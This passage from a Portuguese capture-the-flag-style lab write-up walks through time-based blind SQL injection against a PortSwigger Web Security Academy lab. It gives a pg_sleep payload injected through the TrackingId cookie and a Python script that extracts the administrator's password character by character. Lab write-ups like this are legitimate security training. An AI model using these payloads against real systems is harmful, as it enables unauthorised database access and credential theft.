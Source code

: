 ```python
        break

```

![saida](retrieval_saida.PNG)


Agora eu sabemos que o tamanho da senha é 20, então vamos utilizar o seguinte payload para descobrir a senha:

```sql

TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users--

```

Onde vamos testar todos os caracteres possíveis, até que o tempo de resposta seja maior que 3 segundos e também incrementar o `1` até o 20 para saber todos os caracteres da senha.

Também utilizaremos um script para automatizar o processo:

```python
import requests
import string

url = "https://0ad300c503da1d9cc00e271b00ad00e6.web-security-academy.net/"

for i in range(1, 21):
    for j in string.printable:
        cookies = {"TrackingId":"TrackingId=TrackingId=Bo6DofnwE7hELTVL'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,"+str(i)+",1)='"+j+"')+THEN+pg_sleep(3)+ELSE+pg_sleep(0)+END+FROM+users--"}
        r = requests.get(url, cookies=cookies)
        if r.elapsed.total_seconds() > 2:
            print(j, end="")
            break
```
![saida](retrieval_saida2.PNG)
